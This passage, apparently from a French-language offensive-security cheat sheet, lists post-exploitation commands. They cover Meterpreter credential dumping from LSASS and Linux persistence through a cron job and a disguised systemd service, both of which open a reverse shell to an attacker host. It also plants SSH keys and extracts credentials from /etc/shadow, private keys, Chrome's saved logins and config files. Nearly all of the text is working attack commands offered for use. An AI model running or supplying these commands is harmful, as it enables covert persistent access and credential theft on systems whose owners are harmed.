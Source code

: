 ```bash

# 3. Process memory scraping
meterpreter > ps                   # Find target processes
meterpreter > migrate [PID]        # Migrate to LSASS
meterpreter > load kiwi
meterpreter > creds_all
```

## 🐧 Post-Exploitation Linux Avancée

### Persistence Linux
```bash
# 1. Cron job persistence
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" >> /var/spool/cron/crontabs/root

# 2. Service systemd
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backdoor.service
systemctl start backdoor.service

# 3. SSH key persistence
mkdir -p ~/.ssh
echo "ssh-rsa [your_public_key]" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

### Credential Extraction Linux
```bash
# 1. Password hashes
cat /etc/shadow                    # Requires root
john --wordlist=/usr/share/wordlists/rockyou.txt shadow_hashes.txt

# 2. SSH keys
find / -name "id_rsa" 2>/dev/null
find / -name "id_dsa" 2>/dev/null
find / -name "id_ecdsa" 2>/dev/null
cat ~/.ssh/id_rsa

# 3. Browser credentials
find ~ -name "*.db" | grep -i chrome
sqlite3 ~/.config/google-chrome/Default/Login\ Data "SELECT origin_url, username_value, password_value FROM logins"

# 4. Configuration files
grep -r "password" /etc/ 2>/dev/null
grep -r "pass" ~/.config/ 2>/dev/null
find / -name "*.conf" -exec grep -l "password\|pass\|pwd" {} \; 2>/dev/null
```
